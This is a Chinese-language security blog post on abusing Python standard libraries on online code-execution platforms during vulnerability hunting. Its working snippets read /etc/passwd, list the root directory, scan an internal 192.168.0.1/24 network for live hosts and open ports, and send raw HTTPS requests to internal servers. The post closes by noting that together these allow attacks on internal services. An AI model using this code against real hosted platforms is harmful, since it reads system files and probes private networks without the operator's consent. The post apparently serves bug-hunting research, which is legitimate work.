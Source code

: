 

# 漏洞挖掘过程中特殊情况下 python 基础库的使用 - 先知社区

漏洞挖掘过程中特殊情况下 python 基础库的使用

- - -

## 前言

在一些可以在线运行代码的平台上，可能因为权限的问题对高危操作存在较大的限制。这时候可以选择一些不同的思路去实现一些特殊的操作。

## 文件读取

在一次漏洞挖掘的过程中，平台是可以直接运行基础的 python 代码的，自带一些系统库，但是直接调用系统命令是不被允许的。不能执行系统命令，那么就可以考虑去寻找一些其他的漏洞。这个时候我突然想到是不是可以利用文件操作，去进行文件读取呢？那这个时候我就写了一段简单的 python 代码进行测试

```bash
file = open('/etc/passwd', 'r')
try:
  text = file.read() 
  print(text)
finally:
  file.close()
```

就这样还真读取到了，那么想要读取其他文件，就必须要知道目录  
[![](assets/1709105754-bedfcbb88e54d355b3bac2259837bf5e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227154947-c77d367a-d544-1.png)  
配合这段代码，就可以进行目录的列出了。

```bash
import os

def file_name_listdir(file_dir):
  for files in os.listdir(file_dir): # 不仅仅是文件，当前目录下的文件夹也会被认为遍历到
    print("files", files)
file_name_listdir("/")
```

可以看到这样就可以读取到根目录下的一些内容。  
[![](assets/1709105754-aff90db41db7abbb588ce6252adcae05.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227155111-f9a85846-d544-1.png)  
那么单单进行读取的话还是危害不是很高，很多服务可能都是存在于内网的，无法直接进行访问，但是我们又不能直接访问，怎么办呢，还是系统库。这里可以借助 socket 库

## 内网探测

我们都知道 socket 可以发起网络通信，通过它实际上我们就可以发出各种请求了。比如可以实现端口扫描，但是如果我们想要探测主机存活的话是需要 ICPM 协议的，但是！这里我们实际上可以通过 socket 连接来判断主机存活。如下：

```bash
import socket
import ipaddress
def scan_port(host, port, timeout=1):
    # 创建套接字
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.settimeout(timeout)
    try:
        # 尝试连接到指定主机和端口
        client_socket.connect((host, port))
        print(f"Port {port} is open on {host}")
        return True  # 返回 True 表示连接成功（端口开放）
    except socket.timeout:
        # print(f"Connection to port {port} on {host} timed out")
        return False  # 返回 False 表示连接超时
    except socket.error:
        print(f"Port {port} on {host} is closed")
        return True  # 返回 True 表示连接失败（端口关闭）
    finally:
        # 关闭套接字
        client_socket.close()
def port_scanner(target_network, target_ports, timeout=1):
    # print(f"Scanning ports on network {target_network}")
    # 遍历所有 IP 地址
    for ip in ipaddress.IPv4Network(target_network, strict=False):
        current_ip = str(ip)
        # print(f"Scanning ports on {current_ip}")
        # 遍历所有端口
        for port in target_ports:
            if not scan_port(current_ip, port, timeout):
                break  # 如果连接超时，立即扫描下一个 IP
if __name__ == "__main__":
    # 设置目标网络和端口范围
    target_network = "192.168.0.1/24"  # 替换为实际的目标网络
    target_ports = range(1, 2)  # 替换为实际的端口范围
    # 扫描端口
    port_scanner(target_network, target_ports)
```

可以看到这里实际上是可以看到存活的主机情况的。  
[![](assets/1709105754-fd0a98a110620aa69af551ff8656515c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227155739-e098c948-d545-1.png)  
[![](assets/1709105754-545d25025b742665937cbffa8f2591bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227155615-aec81568-d545-1.png)  
通过上面的代码其实就可以判断主机和端口的存活，然后通过 socket 就可以构造 http 数据包进行请求

```bash
import socket
import ssl

def send_https_request():
    # 设置服务器地址和端口
    server_address = ('192.168.0.1', 443)  # 请替换为实际的服务器地址和端口
    # 创建套接字
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        # 连接到服务器
        client_socket.connect(server_address)
        # 将套接字包装为 SSL 连接
        ssl_socket = ssl.wrap_socket(client_socket, ssl_version=ssl.PROTOCOL_TLS)
        # 发送 HTTP GET 请求
        request_data = "GET / HTTP/1.1\r\nHost: 192.168.0.1\r\n\r\n"
        ssl_socket.sendall(request_data.encode())
        # 接收响应数据
        response_data = ssl_socket.recv(1024)
        print("Response from server:\n", response_data.decode())
    except Exception as e:
        print(f"Error: {e}")
    finally:
        # 关闭套接字
        client_socket.close()
if __name__ == "__main__":
    send_https_request()
```

这样得到了响应内容  
[![](assets/1709105754-25b9c95e56ad4eea852d6d6a170e2c22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227155855-0deaeab6-d546-1.png)  
通过上面的组合的话实际上就可以对内网的一些服务发起攻击了。
